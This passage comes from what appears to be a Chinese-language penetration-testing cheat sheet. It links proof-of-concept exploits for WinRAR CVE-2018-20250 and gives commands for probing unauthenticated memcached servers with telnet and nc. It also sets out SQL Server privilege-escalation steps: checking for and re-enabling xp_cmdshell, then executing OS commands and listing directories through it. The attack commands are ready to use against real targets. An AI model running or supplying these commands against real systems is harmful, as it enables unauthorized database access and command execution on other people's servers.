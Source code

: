 - POC | Payload | exp
    - [WyAtu/CVE-2018-20250](https://github.com/WyAtu/CVE-2018-20250)
    - [Ridter/acefile](https://github.com/Ridter/acefile)

**WinRAR 5.80 XML 注入漏洞和拒绝服务攻击漏洞**
- POC | Payload | exp
    - https://mrxn.net/Infiltration/641.html

---

# 数据库
## memcached
**未授权访问漏洞**
- POC | Payload | exp

    `telnet <ip> 11211`

    `nc -vv <ip> 11211`

    ```bash
    set aaa 0 10 9  # 存个 aaa 值
    memcached

    get aaa # 读这个值
    ```

---

## MS SQL Server
**文章**
- [从攻击MS SQL Server到获得系统访问权限](https://www.freebuf.com/articles/database/22997.html)

**提权**
- **SA 提权**
    1. 判断扩展存储是否存在：
        ```
        select count(*) from master.dbo.sysobjects where xtype = 'x' AND name= 'xp_cmdshell'
        select count(*) from master.dbo.sysobjects where name='xp_regread'
        恢复：
        exec sp_dropextendedproc 'xp_cmdshell'
        exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'
        EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;(SQL2005)
        ```

    2. 列目录：
        ```
        exec master..xp_cmdshell 'ver'
        (or) exec master..xp_dirtree 'c:\',1,1
        (or) drop table black
        create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))--
        insert into black exec master..xp_cmdshell 'dir c:\'
        select top 1 mulu from black where id=1
        xp_cmdshell 被删除时，可以用(4.a)开启沙盒模式，然后(4.b)方法提权
        ```
